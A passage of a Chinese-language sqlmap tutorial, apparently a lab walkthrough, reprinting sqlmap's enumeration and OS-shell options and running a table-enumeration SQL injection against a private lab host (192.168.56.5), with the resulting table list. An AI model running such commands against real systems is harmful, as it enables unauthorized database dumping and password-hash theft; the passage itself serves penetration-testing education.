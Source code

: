 ```
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables. Moreover you can run your own SQL statements

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

  Miscellaneous:
    --sqlmap-shell      Prompt for an interactive sqlmap shell
    --wizard            Simple wizard interface for beginner users

```
以`--tables`参数为例
```
# -u：URL
python /user/bin/sqlmap -u "http://192.168.56.5/cat.php?id=1" --tables
```
可以看到已经获取到了数据库表信息：
```
Database: photoblog
[3 tables]
+---------------------------------------+
| categories                            |
| pictures                              |
| users                                 |
+---------------------------------------+

Database: information_schema
[28 tables]
+---------------------------------------+
| CHARACTER_SETS                        |
| COLLATIONS                            |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS                               |
| COLUMN_PRIVILEGES                     |
| ENGINES                               |
| EVENTS                                |
| FILES                                 |
| GLOBAL_STATUS                         |
| GLOBAL_VARIABLES                      |
| KEY_COLUMN_USAGE                      |
| PARTITIONS                            |
| PLUGINS                               |
| PROCESSLIST                           |
| PROFILING                             |
| REFERENTIAL_CONSTRAINTS               |
```